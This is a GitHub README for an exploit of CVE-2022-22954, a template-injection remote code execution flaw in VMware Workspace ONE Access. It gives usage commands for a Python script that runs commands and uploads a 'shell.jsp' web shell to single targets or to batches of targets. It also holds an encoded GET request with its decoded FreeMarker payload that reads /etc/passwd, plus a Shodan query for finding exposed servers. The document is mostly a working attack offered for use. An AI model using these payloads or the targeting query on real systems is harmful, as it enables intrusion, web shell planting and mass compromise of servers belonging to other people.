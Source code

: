 # CVE-2022-22954
VMware Workspace ONE Access SSTI (RCE)
&nbsp;

## Usage
```bash
// Single target vulnerability detection
python CVE-2022-22954.py -u https://x.x.x.x

// Command execution
python CVE-2022-22954.py -u https://x.x.x.x -c "id"

// Write file
python CVE-2022-22954.py -u https://x.x.x.x -fn test.jsp  -fc "test"

// Upload a file, Windows needs to specify the path to set the file name
python CVE-2022-22954.py -u https://x.x.x.x -fn test.jsp  -fp "D:\Desktop\shell.jsp"

// Upload to the specified path
python CVE-2022-22954.py -u https://x.x.x.x -fn "/opt/vmware/horizon/workspace/webapps/catalog-portal/test.jsp"  -fp "D:\Desktop\shell.jsp"

// Batch detection, consistent usage
python CVE-2022-22954.py -f url.txt
python CVE-2022-22954.py -f url.txt -c "id" -t 200
python CVE-2022-22954.py -f url.txt -fn test.jsp  -fc "test" -t 200
python CVE-2022-22954.py -f url.txt -fn test.jsp  -fp "D:\Desktop\shell.jsp" -t 200
python CVE-2022-22954.py -f url.txt -fn "/opt/vmware/horizon/workspace/webapps/catalog-portal/test.jsp"  -fp "D:\Desktop\shell.jsp" -t 200
```
&nbsp;

## POC
Use following GET request to execute ```cat /etc/passwd``` command.
```
TARGET.COM/catalog-portal/ui/oauth/verify?error=&deviceUdid=%24%7b%22%66%72%65%65%6d%61%72%6b%65%72%2e%74%65%6d%70%6c%61%74%65%2e%75%74%69%6c%69%74%79%2e%45%78%65%63%75%74%65%22%3f%6e%65%77%28%29%28%22%63%61%74%20%2f%65%74%63%2f%70%61%73%73%77%64%22%29%7d
 ```
 ```
 Decoded Payload:
 ${"freemarker.template.utility.Execute"?new()("cat /etc/passwd")}
 ```
Video:
 [![Watch the video](./CVE-2022-22954-poc.png)](https://www.youtube.com/watch?v=YVIW-uKgvPI)
&nbsp;

## Shodan Query:
```
http.favicon.hash:-1250474341 
```
&nbsp;

## Nuclei Template:
[CVE-2022-22954.yaml](https://github.com/NafisiAslH/KnowledgeSharing/blob/main/CyberSecurity/Web/CVEs/CVE-2022-22954/CVE-2022-22954.yaml)
</br>&nbsp;

## Credit
[sherlocksecurity](https://github.com/sherlocksecurity/VMware-CVE-2022-22954)'s github page.</br>
[MLX15](https://github.com/MLX15/CVE-2022-22954)'s github page.</br>
[Punit Darji](https://www.youtube.com/watch?v=YVIW-uKgvPI)'s youtube video.</br>
</br>&nbsp;

## Support
You can Follow [me](https://twitter.com/MeAsHacker_HNA) on twitter or buy me a [Coffee](https://buymeacoffee.com/NafisiAslH)
